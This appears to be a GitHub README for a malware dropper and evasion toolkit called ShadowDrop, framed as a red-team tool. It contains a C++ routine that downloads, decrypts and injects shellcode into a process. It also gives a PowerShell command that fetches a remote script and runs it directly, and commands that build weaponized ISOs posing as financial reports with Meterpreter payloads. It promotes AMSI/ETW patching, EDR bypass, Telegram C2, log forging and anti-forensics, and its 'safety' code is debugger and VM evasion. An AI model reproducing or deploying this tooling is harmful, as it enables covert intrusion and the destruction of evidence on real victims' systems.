



<div align="left">

# ⚔️ ShadowDrop Framework
**Advanced Malware Dropper & Evasion Toolkit for Authorized Red Teaming**


> ⚠️ **LEGAL WARNING**: This toolkit is designed exclusively for authorized penetration testing and defensive research. Unauthorized use violates international laws.

**The core of the system:**


**By accessing this repository, you irrevocably agree to**:
1. **Authorization Requirement**: Use ONLY on systems with explicit written owner consent
2. **Zero-Collateral Policy**: Never disrupt production systems or exfiltrate real data
3. **Full Anonymity**: Strip all metadata and watermarking before deployment
4. **Non-Attribution**: Never reference this project in engagement reports

> Technical architecture: Multi-level protection system

> Current Stage: Alpha Development

✅ **Completed Modules**:
- Memory-only reflective loader
- Weaponized LNK/ISO generators
- AMSI/ETW patching
- Telegram dead-drop C2
- Basic anti-forensics

## 🧰 Core Capabilities

### 🧬 Next-Gen Payload Delivery
```cpp
void ExecuteStagedPayload(LPCSTR c2_url) {
    BYTE* shellcode = DownloadEncryptedPayload(c2_url);
    XORDecrypt(shellcode, 0xAA);
    InjectIntoProcess("dllhost.exe", shellcode); // Living-off-the-Land
    WipeMemory(shellcode); // Zero forensic footprint
}
```

- Polymorphic droppers with runtime code mutation
- Zero-touch deployment via weaponized LNK/ISO containers
- Process ghosting with section object hijacking
- API unhooking for EDR bypass

> Polymorphic engine


### 🔥 Operational Features

#### C2 Infrastructure
- Dead-drop synchronization via Telegram bots
- Geofenced payload activation (GPS coordinates)
- Self-destruct on forensic tool detection

#### Anti-Forensics
- MFT entry corruption
- Timestomping
- Memory-only persistence

### 🚀 Rapid Deployment
```powershell
# Install ShadowDrop framework
iwr https://raw.githubusercontent.com/Untouchable17/ShadowDrop-Framework/main/install.ps1 -UseBasicParsing | iex

# Generate weaponized ISO (Office 0-day)
New-ShadowDropVector -Template FinancialReport -Payload Meterpreter -Obfuscation 7 -Output "Q3_Results.iso"

# Build custom dropper (C++/ASM hybrid)
Compile-ShadowDrop -Source .\Core\Stager.cpp -Arch x64 -Evasion "ETW+PatchGuard" -Output stager.bin

# Execute test campaign
Start-RedTeamOperation -Campaign "Operation Midnight" -TargetDomain corp.local -SafeMode
```
Output: Fully weaponized ISO with fingerprint-matching decoy documents

### 🧩 Framework Architecture
```bash
ShadowDrop/
├── Core/                      # Framework engine
│   ├── Stager                 # Memory-only loader
│   ├── Cryptor                # ChaCha20 + AES-NI
│   └── AntiForensics          # Evidence elimination
├── Vectors/                   # Delivery mechanisms
│   ├── LNK_Generator          # Weaponized shortcut creator
│   ├── ISO_Weaponizer         # Exploit-packed ISOs
│   └── OneClick_Exploits      # Browser/documents 0days
├── Evasion/                   # Detection avoidance
│   ├── AMSI_Killer            # Kernel-level patching
│   ├── ETW_Eraser             # Event Tracing dismantling
│   └── Syscall_Hell           # Direct syscall gates
├── C2/                        # Command infrastructure
│   ├ DeadDrop_Comms           # Telegram/Signal C2
│   ├ GeoFence_Activator       # Location-based triggers
│   └ Burner_Protocol          # Self-destruct system
└── Operations/                # Mission control
    ├ OpSec_Validator          # Target verification
    ├ Log_Forger               # Evidence fabrication
    └ Exfil_Simulator          # Beacon testing
```

## 🔒 Compliance Safeguards
```csharp
// Embedded safety protocols
if (!IsAuthorizedEnvironment()) {
    TriggerSelfDestruct(0xDEAD); // Immediate wipe
}

bool IsAuthorizedEnvironment() {
    return CheckDebugger()          ? false :  // Debugger
           CheckVM()               ? false :  // Virtualization
           CheckDomain("prod.corp") ? false : // Production check
           CheckGeoIP("RU,CN,IR")  ? false : // Geo-blocked
           true;
}
```

- Automatic shutdown in unauthorized environments
- Payload deactivation after 72 hours
- Embedded watermarking (SHA-3 operator ID)
- Zero disk writes (memory-only operation)

## 📜 License & Operational Constraints
**License**: GPL-3.0+ Use Restriction

**Mandatory OPSEC**:
```bash
# Strip all metadata before use
python -m shadowdrop.sanitize --file weaponized.iso
```
```diff
- Critical: Always use VPN chaining and burner devices
+ Operational Tip: Pair with Cobalt Strike for full campaign simulation
```


> Disclaimer: All payloads execute benign calc.exe (or other) by default. Real-world weaponization requires external payload integration. Developers bear zero liability for misuse.
